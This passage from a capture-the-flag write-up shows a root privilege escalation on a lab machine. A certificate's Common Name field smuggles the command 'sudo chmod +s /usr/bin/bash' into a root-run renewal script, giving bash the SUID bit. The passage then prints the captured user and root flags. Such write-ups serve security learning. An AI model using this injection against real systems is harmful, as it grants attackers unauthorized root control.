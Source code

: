 ```bash
Country     => AU
State       => Some-State
Locality    => 
Org Name    => Internet Widgits Pty Ltd
Org Unit    => 
Common Name => "`sudo chmod +s /usr/bin/bash`"
Email       => 
```

- This was the payload.

```bash
sudo chmod +s /usr/bin/bash
```

- Make sure you are in the same directory as the script if you run it this way:

```bash
cd /opt
./renew_cert.sh /home/bill/Certs/broscience.crt
```
- Otherwise:

```bash
bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

- Note that I had been successful without `sudo` and with `sudo`. I had changed the `-s` bit to off to try again. It was sporadic with the two successful attempts.
- I was concerned I hadn't completed it myself, but I caught the process in action with `pspy64` with the `sudo` attempt.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125025156.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125025219.png)

- Then you can grab the flags!

```bash
cat /home/bill/user.txt 

433e2ec578d02d8baadf6e86514e0bb6

cat /root/root.txt 

5a9a826a447cb356c317ec47881c4385
```

#hacking
